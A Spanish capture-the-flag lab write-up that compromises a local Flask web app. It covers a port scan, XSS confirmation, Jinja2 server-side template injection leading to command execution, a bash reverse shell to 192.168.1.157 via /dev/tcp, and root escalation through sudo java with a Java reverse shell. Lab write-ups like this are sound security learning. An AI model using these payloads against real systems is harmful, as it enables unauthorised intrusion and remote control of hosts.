

# Info
## IP Víctima
```
172.17.0.2
```

# Writeup
## Reconocimiento
### Escaneo de puertos
En primer lugar, como siempre, lanzamos un escaneo de puertos para identificar los servicios abiertos en sus respectivos puertos:
```shell
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.17.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-01 18:02 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000089s latency).
Not shown: 65535 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
5000/tcp open  http    Werkzeug httpd 3.0.1 (Python 3.12.3)
|_http-title: Pingu Flask Web
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
MAC Address: 02:42:AC:11:00:02 (Unknown)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
```
Nos encontramos con un servidor HTTP corriendo en el puerto 5000 sobre Werkzeug 3.0.1 y Python 3.12.3, del escaneo nada más salta a la vista, así que vamos a echarle un vistazo a la página web. Nos encontramos con un formulario de registro que pide los siguientes campos: nombre, cumpleaños, email y teléfono.

El único campo que hace algún cambio relevante es el de nombre, al clicar en Save te redirige a /greet, donde leemos un mensaje que lee Hola *nombre que hemos puesto en el campo*! 
Con esta información lo que podríamos probar es distintos payloads de XSS o SQLi, mientras tanto dejaré fuzzing trabajando a ver si encuentra alguna ruta interesante.
## Explotación
#### XSS
Con tan solo probar el segundo payload ya vemos que el formulario es efectivamente vulnerable a XSS, al probar esto `<script>alert(1)</script>` en el campo del nombre, nos salta una alerta del navegador, confirmando la vulnerabilidad.
Además, el FFUF ha dado con la ruta /console, pero al tratar de acceder a ella nos solicita un PIN que no tenemos.

#### SSTI
Después de leer y probar un rato distintas cosas con XSS, finalmente obtengo un error probando payloads de SSTI. Hago las pruebas correspondientes siguiendo las instrucciones de [PayLoadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection): 
1. Ponemos en el input que sospechamos vulnerable un payload comodín que hace saltar un error en la mayoría de ocasiones en casi cualquier template engine. `${{>%[%'"}}%\. ` 
2. Probamos distintos payloads con el fin de obtener el template engine que está corriendo en el servidor web, en este caso, ya con el primer payload `{{7*7}}` sabemos que es Jinja2
3. Con esa información en mente, podemos, con esta línea, ejecutar un comando a nivel de sistema `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}`
4. Una vez esa línea nos devuelve el siguiente output *Hello uid=1001(pinguinazo) gid=1001(pinguinazo) groups=1001(pinguinazo),100(users) !* podemos ir a por la reverse shell introduciendo este payload:
```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen("bash -c 'bash -i >& /dev/tcp/192.168.1.157/443 0>&1'").read() }}
```

## Post explotación
#### Escalada de privilegios
Al lanzar sudo -l, vemos que el usuario puede ejecutar el binario java con permisos root
```bash
pinguinazo@29a22f0dc193:~/flask_ssti_lab$ sudo -l
sudo -l
Matching Defaults entries for pinguinazo on 29a22f0dc193:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pinguinazo may run the following commands on 29a22f0dc193:
    (ALL) NOPASSWD: /usr/bin/java
```
Ya que en GTFObins no encuentro nada, voy directo a RevShells, de donde saco una reverse shell de java. Desde mi máquina levanto un servidor HTTP con `python3 -m http.sever` y con curl lo descargo desde la otra revshell activa, una vez la shell esta instalada, me pongo en escucha en una nueva terminal y ejecuto el comando como root: `sudo /usr/bin/java rev.java`, cuando tabulo hacia mi otra consola, veo que ya soy root.
```
root@29a22f0dc193:/home/pinguinazo/flask_ssti_lab# whoami
whoami
root
```